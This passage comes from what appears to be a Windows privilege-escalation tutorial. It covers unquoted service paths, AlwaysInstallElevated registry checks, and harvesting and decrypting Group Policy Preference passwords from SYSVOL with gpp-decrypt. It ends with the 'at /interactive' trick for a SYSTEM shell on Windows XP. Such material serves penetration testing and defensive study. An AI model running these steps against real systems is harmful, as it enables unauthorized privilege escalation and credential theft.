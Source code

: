     c:\Program Files\something\winamp.exe

We can place a binary like this

    c:\program.exe


**AlwaysInstallElevated**

    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

**Group Policy Preference**

If the machine belongs to a domain and your user has access to System Volume Information there might be some sensitive files there.

First we need to map/mount that drive. In order to do that we need to know the IP-address of the domain controller. We can just look in the environment-variables

**Output environment-variables**
<code>set</code>

**Look for the following:**
<code>LOGONSERVER=\\NAMEOFSERVER</code>
<code>USERDNSDOMAIN=WHATEVER.LOCAL</code>

**Look up ip-addres**
<code>nslookup nameofserver.whatever.local</code>

It will output something like this
<code>Address:  192.168.x.x</code>

Now we mount it
<code>net use z: \\192.168.x.x\SYSVOL</code>

And enter it
<code>z:</code>

#### Now we search for the groups.xml file
<code>dir Groups.xml /s</code>

If we find the file with a password in it, we can decrypt it like this in Kali
<code>gpp-decrypt encryptedpassword</code>

<br>
#### On Windows XP and Older

If you have a GUI with a user that is included in Administrators group you first need to open up cmd.exe for the administrator. If you open up the cmd that is in Accessories it will be opened up as a normal user. And if you rightclick and do Run as Administrator you might need to know the Administrators password. Which you might not know. So instead you open up the cmd from <code>c:\windows\system32\cmd.exe</code>. This will give you a cmd with Administrators rights.

From here we want to become SYSTEM user. To do this we run:

First we check what time it is on the local machine:
<code>time</code>

Now we set the time we want the system CMD to start. Probably one minuter after the time.
<code>at 01:23 /interactive cmd.exe</code>
